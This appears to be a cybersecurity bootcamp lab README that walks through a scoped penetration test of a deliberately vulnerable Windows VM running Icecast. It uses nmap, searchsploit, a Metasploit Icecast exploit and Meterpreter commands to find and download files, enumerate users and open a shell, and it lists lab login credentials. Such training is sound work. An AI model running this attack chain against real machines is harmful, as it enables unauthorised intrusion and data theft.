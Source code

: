 ## Penetration Test Engagement

In this activity, I will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- I will show you how to gain access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

### A full report can be found here: [GoodSecurity Penetration Test Report](GoodSecurityReport.pdf)

<br>

#### Setup 

- Before we begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. We are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After we gain access to the CEO’s computer, we may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since we've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this demonstration, I will be using the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

 
### Instructions
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > `Answer: \nmap -sV 192.168.0.20`

      <img src="Images/Capture1.PNG"/>

      <img src="Images/Capture2.PNG"/>
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > `Answer: searchsploit icecast` 

        <img src="Images/Capture3.PNG"/>

        <img src="Images/Capture11.PNG"/>


3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > `Answer: msfconsole`

     <img src="Images/Capture4.PNG"/>
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > `Answer: search icecast`

     <img src="Images/Capture5.PNG"/>
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > `Answer: use 0`

     <img src="Images/Capture6.PNG"/>
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > `Answer: set RHOST 192.168.0.20`

     <img src="Images/Capture7.PNG"/>
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > `Answer: run`

     <img src="Images/Capture8.PNG"/>
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > `Answer: search -f *secret*.txt`

     <img src="Images/Capture9.PNG"/>
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > `Answer: search -f *recipe*.txt`
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      >`Answer: download c:\Users\IEuser\Documents\Drinks.recipe.txt'

      
    <img src="Images/Capture12.PNG"/>
  

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  >`Answer: run post/windows/gather/enum_logged_on_users`
                                           
     
B. Open a Meterpreter shell. 
 
  > `Answer: shell`

  <img src="Images/Capture13.PNG"/>
 
C. Run the command that displays the target's computer system information:

   > `Answer: exit to meterpreter and run: sysinfo` 

   <img src="Images/Capture10.PNG"/>

<br>
<br>

### A full report can be found here: [GoodSecurity Penetration Test Report](GoodSecurityReport.pdf)

<br>
---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
